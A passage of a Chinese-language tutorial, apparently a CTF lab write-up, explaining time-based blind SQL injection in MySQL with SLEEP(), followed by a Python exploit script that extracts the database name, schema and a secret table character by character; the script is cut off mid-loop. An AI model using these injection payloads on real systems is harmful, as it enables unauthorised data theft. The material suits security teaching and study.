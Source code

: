 如果想要让布尔盲注不可用，我们可以做一个假设，假设我们并不知道账户的密码，也就无法通过登陆验证，这个时候就失去了布尔盲注最大的依赖，也就无法得知 if 表达式的真或假了。

![](static/boxcndxf4WEQQQEXspS7GwNKI6J.png)

但，真的没办法了吗？

在 MySQL 中存在一个延时函数 sleep()，可以延时特定的秒数

如果我们将 if 语句中的返回值改成延时函数会如何呢？

当 if 语句为真时进行一个延时，当 if 语句为假时即刻返回

于是我们就可以通过查询进行的时间长短来判断语句是否为真了！

完整的 exp 如下

```python
from mysqli_invisible_time import *
import string
import io
import sys
import signal

def handler(signum, frame):
    raise Exception("timeout")

signal.signal(signal.SIGALRM, handler)

def escape_string(c):
    return "\\" + c if c in ".+*" else c

def exp():
    payload_template = "Liki4' AND if({exp},SLEEP(1),0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n555_i_dont_know_password')
            res = sys.stdout = io.StringIO()

            signal.alarm(1)
            try:
                main()
                print("timeout")
            except:
                print("bingooo")
            
```